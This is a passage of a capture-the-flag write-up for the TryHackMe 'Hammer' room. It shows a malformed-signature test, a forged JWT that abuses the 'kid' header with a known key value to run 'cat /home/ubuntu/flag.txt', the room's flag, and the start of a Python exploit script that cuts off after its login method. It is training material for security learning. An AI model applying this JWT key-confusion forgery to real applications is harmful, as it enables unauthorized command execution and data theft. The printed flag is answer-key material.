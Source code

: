 The brute force attempt failed, and I was unable to find the valid signing key.

#### Malformed signature

Remove the `jwt.encode()` line, and retrieve the token from the existing cookies instead. There are many ways to malform the signature. For this test, I decided to remove the last character from the token.

<pre class="language-python"><code class="lang-python"><strong>token = self.s.cookies.get('token')
</strong><strong>token = token[:-1] # remove the last character
</strong></code></pre>

Output:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 3. Vulnerable `kid` header value

In our application, a symmetric key is used.  Thus, the `kid` value defines the path used to look up a value to be used as the signing key.

I attempted to change the `kid` value to `188ade1.key`, and encode a new JWT with the content of that file.

```python
 key = '56058354efb3daa97ebab00fabd7a7d7'
 
 headers = {
   "typ": "JWT",
   "alg": "HS256",
   "kid": "188ade1.key"  # changed from '/var/html/mykey.key' -> '188ade1.key'
 }
 
 command = 'cat /home/ubuntu/flag.txt'
```

With the command: `cat /home/ubuntu/flag.txt`, I was able to retrieve the flag!

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

We have found the answer to the final question: "_What is the content of the file /home/ubuntu/flag.txt?_": `THM{RUNANYCOMMAND1337}` .



**FINAL Python script:**

```python
import requests
import jwt

class JWT_KID_EXPLOIT():
    s = requests.Session()
    PORT = 1337
    email = 'tester@hammer.thm'
    password = 'xxx' # value of the new password

    def __init__(self, IP):
        self.IP = IP
        self.URL = f'http://{IP}:{self.PORT}'

    def login(self):
        self.s.post(f'{self.URL}/index.php',
                    headers={'Content-Type': 'application/x-www-form-urlencoded'},
                    data={'email': self.email,
                          'password': self.password})
```